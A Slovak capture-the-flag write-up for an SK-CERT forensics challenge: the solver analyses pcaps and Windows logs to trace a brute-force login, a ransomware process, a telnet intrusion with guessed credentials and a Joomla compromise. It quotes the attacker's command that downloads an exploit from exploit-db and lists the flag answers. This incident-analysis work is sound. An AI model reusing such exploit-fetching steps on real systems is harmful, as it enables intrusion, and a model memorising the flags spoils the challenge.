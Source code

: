 # SK-CERT - DÁTOVÁ ANALÝZA
> Ozvala sa nám spoločnosť, ktorá dostala hlásenie že majú infikovaný počítač ransomvérom. Ten je špecifický tým že posiela vygenerovaný privátny klúč na útočníkov server. Prikladáme vám pcap: https://drive.google.com/file/d/13arhVaKNFD_g2qCjuDBrECmpN6MKd4Rw/view?usp=sharing <br/>
Reported Difficulty: 1


## 1 Kontrola
> Z dodaného PCAP súboru je potrebné zistiť či naozaj je spoločnosť infikovaná, a pokiaľ áno, tak je potrebné zistiť o aký privátny klúč sa odosiela. Vlajka je IP adresa serveru na ktorý sa klúč odoslal.

Otvorime `part1.pcap` vo Wireshark a pustime sa do analyzi. Musim uznat ze som to isiel skratkou a skusal rozne IPecky z komunikacie kym som nenatrafil na tu pravu: `194.182.66.53`

```
flag: 194.182.66.53
```

## 2 Windows?
> Zdrojová IP počítača ktorý odosielal privátny klúč, patrí lokálnemu počítaču s windows. Je potrebné zistiť ako prenikli do tohto systému. Prikladáme bezpečnostný log v XML formáte.
https://drive.google.com/file/d/1pmJNCfgnpTCMewCaRioqagYj0_VLcold/view?usp=sharing
Vlajka je dátum a čas prvého prieniku (Formát Y-m-d H:i:s)

V tomto kroku mame securty log v xml, otvorime ho v LibreOffice Calc a pozrieme sa na rozne eventy co tam mame. Zo poctu roznych logov vidime vysoky vyskit 4625 co je Failed Login.

![](images/2022-03-06-12-36-54.png)

Ked si vyfiltrujeme vsetky 4625 eventy vidime ze vsetky maju FailureReason `%%2313` co je `Unknown user name or bad password. (529)`, targetuser je `victim` a zdrojom je `LinuxServerWebServer`. Vyzera to na bruteforce login ktory, ako predpokladame ze bol bol enty point, nas flag by mal byt prvy successfull login attempt po poslednom failed:

![](images/2022-03-06-12-55-59.png)

```
flag: 2022-02-22 20:40:08
```

## 3 Ktorý proces?
> Po bruteforce útoku a prihlásení, útočník spustil malvér. Je potrebné zistiť meno procesu. Vlajka je meno procesu (Formát: meno_procesu.format)

V LibreOffice vyfiltrujeme vsetky eventy s ProcessName a NewProcessName a hladame nieco podozrive po case prveho successfull loginu utocnika a o chvilku to mame:

![](images/2022-03-06-13-10-07.png)

```
flag: YouWillCryRansomware3000.exe
```

## 4 Otvorený test
> Kompromitovaný LinuxServerWebServer je náše testovacie prostredie, aplikácie na serveri sú dostupné iba z lokálnej siete, ale telnet server je otvorený do sveta. Prikladáme Pcap s potrebnými dátami. https://drive.google.com/file/d/1y3pOvG9PDGf7Sg7HtgOGvfjpk6qlVYor/view?usp=sharing
Vlajka je EpochTime prieniku do systému (bez milisekúnd).

Po otvoreni `web.pcap` suboru, poobzerame sa trosku okolo a uvidime ze sa niekdo snazi prihlasit cez telnet session:

![](images/2022-03-06-15-43-26.png)

Skusime hladat "Login" v paketoch s cielom najst prvy success login, a po niekolko desiatok klikoch narazame na "Last Login" message ktora sa objavuje po uspesnom prihlaseni sa.

![](images/2022-03-06-15-48-16.png)

Pre istotu pojdeme este zopar paketov vyssie aby sme sa uistili ze to bol utocnik ktory uhadol login a heslo. Po prezreti zopar desiatok paketov predtym vidime ze utocnik uhadol login `bob` a heslo `adminbob` a paket cislo `6262` mozeme povazovat ako okamih preiniku do systemu ktory ma EpochTime (bez milisekund)

![](images/2022-03-06-15-53-52.png)

```
flag: 1645560004
```

## 5 Stará joomla
> Z logov sme zistili že útočník vyhackoval aj našu joomlu na testovacom serveri. Z posledného PCAP súboru je potrebné zistiť aký exploit útočník použil.
Vlajka je url odkial útočník exploit stiahol (Formát: www.stránka_exploitu.doména/cesta_k_exploitu)

Pri pozerani zopar dalsich paketov, vidime ze utocnik prve co spravil je `wget https://www.exploit-db.com/download/47465`, rychly nahlad do toho url nam potvrdzuje ze ide o Joomla expoit.

![](images/2022-03-06-16-16-09.png)

```
flag: www.exploit-db.com/download/47465
```



